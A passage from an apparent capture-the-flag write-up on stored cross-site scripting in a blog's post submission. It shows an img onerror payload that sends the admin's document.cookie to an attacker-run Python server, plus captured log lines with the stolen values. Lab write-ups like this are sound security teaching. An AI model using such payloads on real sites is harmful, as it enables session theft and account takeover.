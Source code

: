 After a **painful** wait, we will have our post published. Hooray…? Indeed, because when it comes to posts and possible vulnerabilities, the first one that will come into our mind is cross site scripting.

![New post is submitted](images/tgc/medium/article_submitted.png)

The post submission process does not check and validate user input automatically so cross site scripting is possible which we can double check that by posting a post with the following input

```html
<img src=”x” onload=”alert(1)” />
```
Therefore, we can try getting the admin cookie by inputting
```html
<img src=”x” onerror=fetch('http://127.0.0.1:8000?'+document.cookie) />
```

and catching the response with a simple trusty Python server through command line
```sh
python3 -m http.server
```
Let's wait for the “admin” to check our post. When he opens our post he will trigger the `cross site scripting` payload. We will then obtain the following result in our python server:
```sh
::ffff:127.0.0.1 - - [23/Apr/2024 19:19:05] "GET /?userData=fc7fcd0dfff43f12ea176c886e9a6e98d2dc4645bc09f009bfcc78390947eb6c641dace3d9a2c6d9539b75ff2a9cb809f8a493e88a9a45b62ac52179a6b323c789c8fde69a7bea3c4ede6aeb71fa183f3ff0e5ef78d45f68c2b1dfcd2d0e7602f23c7990c61a5d1e6ac7da58383a1292d025411d159f89e28e64845f1c4bc64d5d9a0ee6dc44e267d0ae1e87d751506e8489c8ae420563bcf451fb52ebc99805 HTTP/1.1" 200 -
::ffff:127.0.0.1 - - [23/Apr/2024 19:19:35] "GET /?userData=71c2e52a10d556e4a059a0dbfb8052db01e6c6dbff383879211163d6a748da4dddcb4a39ceb761cd05402fefa6d71ec5fc2ad619da1097599b946b172b023854288cb087e15e2ecd1c8ec41e0437a4c037e4edb3e1085ba9c97efc35c4c09afc4ae64fd0fbd3a93f0435871fce25cc1ef3a1db3ec484eaafed077fe59e3d268e470d8bd38f495f73cc5db152701e2242a94bd8e55e08535ec1654510f00f5644b8717c9c811f0f280604d1b15f9dd4b4 HTTP/1.1" 200 -
```